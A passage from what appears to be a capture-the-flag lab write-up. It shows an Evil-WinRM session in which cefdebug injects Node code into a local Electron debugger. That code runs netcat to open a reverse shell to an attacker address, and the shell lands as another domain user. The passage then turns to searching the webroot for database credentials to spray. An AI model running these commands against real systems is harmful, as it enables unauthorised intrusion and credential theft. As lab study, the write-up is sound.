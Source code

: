 ```
*Evil-WinRM* PS C:\Users\alcibiades\Documents> ./cefdebug.exe
cefdebug.exe : [2022/04/21 23:32:44:9695] U: There are 5 tcp sockets in state listen.
    + CategoryInfo          : NotSpecified: ([2022/04/21 23:...n state listen.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2022/04/21 23:33:05:0479] U: There were 3 servers that appear to be CEF debuggers.
[2022/04/21 23:33:05:0479] U: ws://127.0.0.1:16979/9ca0f5a9-61d3-40c8-adb5-6ed0886a8186
[2022/04/21 23:33:05:0479] U: ws://127.0.0.1:1568/51b11c8d-8d85-41ce-b3e2-f5ddcece7562
[2022/04/21 23:33:05:0479] U: ws://127.0.0.1:54266/856b444e-b749-449f-8e5f-bf294652d70b
*Evil-WinRM* PS C:\Users\alcibiades\Documents> mkdir \bruh

    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/21/2022  11:33 PM                bruh

*Evil-WinRM* PS C:\Users\alcibiades\Documents> copy nc64.exe \bruh\
*Evil-WinRM* PS C:\Users\alcibiades\Documents> ./cefdebug.exe --url ws://127.0.0.1:16979/9ca0f5a9-61d3-40c8-adb5-6ed0886a8186 --code "process.mainModule.require('child_process').exec('\\bruh\\nc64.exe -e cmd 10.10.16.2 445')"
cefdebug.exe : [2022/04/21 23:33:39:0457] U: >>> process.mainModule.require('child_process').exec('\\bruh\\nc64.exe -e cmd 10.10.16.2 445')
    + CategoryInfo          : NotSpecified: ([2022/04/21 23:...0.10.16.2 445'):String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
[2022/04/21 23:33:39:0457] U: <<< ChildProcess

┌──(root💀kali)-[/home/kali]
└─# rlwrap nc -nvlp 445                                                                                                                   
Ncat: Listening on 0.0.0.0:445
Ncat: Connection from 10.10.10.179.
Ncat: Connection from 10.10.10.179:51578.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Program Files\Microsoft VS Code>whoami
megacorp\cyork
```

it seems we've reached another user, but not quite the one we want (sbauer). This one also appears to be in the "Developers" group. Like last time, there's no winpeas, but after manually enumerating some files and ACLs, I did notice that this user has access to the webroot directory. Remember how MSSQL is running? Theoretically, there should be some sort of file here that makes the connection to the database, and that file should have the creds to the database which we can spray. Although there are no .aspx files, I found it odd that there was a "bin" folder.

```
Directory of C:\inetpub\wwwroot

01/07/2020  10:28 PM    <DIR>          .
01/07/2020  10:28 PM    <DIR>          ..
01/07/2020  10:28 PM    <DIR>          aspnet_client
01/07/2020  10:28 PM    <DIR>          assets
01/07/2020  10:28 PM    <DIR>          bin
01/07/2020  10:28 PM    <DIR>          Content
01/07/2020  11:50 PM    <DIR>          css
01/06/2020  05:49 PM             3,614 favicon.ico
01/07/2020  10:28 PM    <DIR>          fonts
01/06/2020  11:36 PM                98 Global.asax
01/07/2020  10:28 PM    <DIR>          images
01/07/2020  10:28 PM    <DIR>          img
```